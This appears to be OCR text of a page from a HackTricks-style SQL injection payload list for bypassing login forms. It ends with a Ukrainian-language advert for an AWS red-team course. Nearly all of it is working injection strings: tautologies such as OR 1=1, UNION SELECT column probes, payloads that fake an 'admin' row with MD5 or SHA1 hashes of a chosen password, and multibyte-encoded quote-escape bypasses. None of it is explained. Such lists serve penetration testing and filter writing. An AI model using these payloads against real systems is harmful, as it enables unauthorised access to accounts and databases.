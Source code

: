 ")||"2"LiKE"2"-- 2
")||"2"LiKE"2"#
")||"2"LiKE"2"/*
")||"2"LiKE"2"||("
")||(2)LiKE(2)-- 2
")||(2)LiKE(2)#
")||(2)LiKE(2)/*
' UnION SELeCT 1,2`
' UnION SELeCT 1,2,3`
' UnION SELeCT 1,2,3,4`
' UnION SELeCT 1,2,3,4,5`
" UnION SELeCT 1,2`
" UnION SELeCT 1,2,3`
" UnION SELeCT 1,2,3,4`
" UnION SELeCT 1,2,3,4,5`
' or 1=1 limit 1 -- -+
'="or'
Pass1234.
Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658
Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658'#
Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.
Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.')#
Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61
Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61'#
Pass1234.' and 1=0 union select 'admin',sha('Pass1234.
Pass1234.' and 1=0 union select 'admin',sha('Pass1234.')#
Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658
Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658"#
Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.
Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.")#
Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61
Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61"#
Pass1234." and 1=0 union select "admin",sha("Pass1234.")
%A8%27 Or 1=1-- 2
%8C%A8%27 Or 1=1-- 2
%bf' Or 1=1 -- 2
%A8%27 Or 1-- 2
%8C%A8%27 Or 1-- 2
%bf' Or 1-- 2
%A8%27Or(1)-- 2
%8C%A8%27Or(1)-- 2
%bf'Or(1)-- 2
%A8%27||1-- 2
%8C%A8%27||1-- 2
%bf'||1-- 2
%A8%27) Or 1=1-- 2
%8C%A8%27) Or 1=1-- 2
%bf') Or 1=1 -- 2
%A8%27) Or 1-- 2
%8C%A8%27) Or 1-- 2
%bf') Or 1-- 2
%A8%27)Or(1)-- 2
%8C%A8%27)Or(1)-- 2
%bf')Or(1)-- 2
%A8%27)||1-- 2
%8C%A8%27)||1-- 2
%bf')||1-- 2
```
<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

```